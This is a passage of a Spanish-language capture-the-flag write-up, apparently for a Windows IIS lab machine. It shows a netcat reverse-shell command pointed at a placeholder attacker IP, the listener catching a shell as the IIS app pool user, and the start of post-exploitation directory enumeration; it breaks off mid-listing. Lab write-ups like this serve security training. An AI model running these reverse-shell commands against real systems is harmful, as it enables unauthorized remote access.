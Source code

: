 En la **CMD** de la página web, usa el siguiente comando:
```batch
C:\inetpub\wwwroot\nc.exe -e cmd Tu_IP 443
```
Normalmente, el **directorio inetpub** es el que contiene al **servicio FTP**.

Y listo, ya estamos conectados a la máquina víctima:
```bash
rlwrap nc -nvlp 443                                    
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.10.5] 49168
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web
```


<br>
<br>
<hr>
<div style="position: relative;">
	<h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="Windows">Enumeración de Máquina Víctima</h2>

Una vez más dentro de la máquina, vamos a buscar la flag del usuario:
```batch
c:\windows\system32\inetsrv>cd C:\
cd C:\

C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 137F-3971

 Directory of C:\

11/06/2009  12:42 ��                24 autoexec.bat
11/06/2009  12:42 ��                10 config.sys
17/03/2017  07:33 ��    <DIR>          inetpub
14/07/2009  05:37 ��    <DIR>          PerfLogs
13/12/2020  01:59 ��    <DIR>          Program Files
18/03/2017  02:16 ��    <DIR>          Users
11/02/2022  05:03 ��    <DIR>          Windows
               2 File(s)             34 bytes
               5 Dir(s)   4.677.365.760 bytes free
```

Recuerda siempre ir a la carpeta usuarios y puede estar en la de **Public** o en el nombre de algún usuario:
```batch
C:\>cd Users
cd Users

C:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 137F-3971

 Directory of C:\Users

18/03/2017  02:16 ��    <DIR>          .
```